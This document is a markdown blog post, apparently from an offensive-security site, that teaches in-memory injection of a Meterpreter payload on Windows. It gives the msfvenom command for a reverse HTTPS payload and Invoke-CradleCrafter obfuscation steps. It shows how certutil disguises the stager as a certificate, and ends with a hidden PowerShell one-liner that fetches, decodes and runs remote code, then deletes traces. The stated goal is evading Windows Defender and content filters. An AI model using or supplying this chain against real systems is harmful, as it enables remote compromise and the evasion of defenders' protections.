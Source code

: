 ```yaml
---
title: "PowerShell: In-Memory Injection Using CertUtil.exe"
date: "2022-05-18"
description: "Using PowerShell, `Invoke-CradleCrafter` and Microsoft’s Certutil.exe to craft a payload and one-liner that can be used to evade the latest version of Windows Defender (as of this writing)."
coverimage: PowerShell_In_Memory_Injection_Using_CertUtil_exe.jpg
tags: certutil, powershell
published: true
---
```

- PowerShell is still one of the easiest and best ways to gain a foothold, but at the same time, it is selling you out because it talks to AMSI as soon as it’s run.
- The beauty of this method is that Microsoft’s `certutil` does the network call out to your primary payload while appearing to be an innocent certificate file.

**Pre-Requisites**

- Download `Invoke-CradleCrafter` from GitHub.

**Methodology**

1. First, we will create a base64 encoded PowerShell Meterpreter payload by performing the following:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o b64_pwsh.txt
```

<div class="card-body es-lightbulb"><p>
**Note** that the payload file’s extension could be anything as long as `certutil` can get at it and read its content. For example, an organization may have a policy (or IDS, content filter, etc.) that does not allow the downloading of scripts; however, they probably allow .txt files or even files with abnormal extensions. If you change it, make sure you compensate for that when setting the URL in `Invoke-CradleCrafter`</p>
</div>


1. Next, you will create a folder used to serve up web content. Place the PowerShell Meterpreter PowerShell script (`b64_pwsh.txt`) inside this folder.
2. Next, we will use `Invoke-CradleCrafter` to obfuscate our `certutil` and PowerShell commands used to perform the in-memory injection. Drop into a PowerShell prompt on your Linux host by typing `pwsh` or `powershell`.  Then `cd` into your `Invoke-CradleCrafter` directory.

```powershell
Import-Module .\Invoke-CradleCrafter.psd1; 
Invoke-CradleCrafter
Invoke-CradleCrafter> SET URL http://10.10.10.10/b64_pwsh.txt
Invoke-CradleCrafter> MEMORY
Invoke-CradleCrafter> CERTUTIL
```

1. Next, you will be presented with your obfuscation options. Select **ALL** by typing it on the command line and then typing **1** to execute.

```
:::powershell
Invoke-CradleCrafter> ALL
Invoke-CradleCrafter> 1
```

1. Once generated, we now have a PowerShell cradle with obfuscation that can pull in our `b64_pwsh.txt` payload. We now want to put this into a text file such as `output.txt` for encoding. 
2. We will encode this file in base64 using the `certutil` to create a file called `cert.cer` which will end up on our web server next to the `b64_pwsh.txt`.

```
certutil -encode output.txt cert.cet
```

1. We can now use the following one-liner to pull our `cert.cer` certificate from our web server; the certificate gets decoded and saved to the disk as `stager.ps1`. The file `stager.ps1` is then executed (this is the content of the cradle we made earlier with `Invoke-CradleCrafter`), and when it runs, it pulls the `b64_pwsh.txt` file down from the server and executes it to give us a Metasploit Meterpreter session.  

```
:::powershell
powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://10.10.10.10/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stager.ps1 & start /b cmd /c powershell.exe -Exec Bypass -NoExit -File %APPDATA%\stager.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```

<div class="card-body es-warning"><p> **NOTE** that the `cert.cer` file will be deleted by the script; however, you will need to remove the `stager.ps1` file manually.</p>
</div>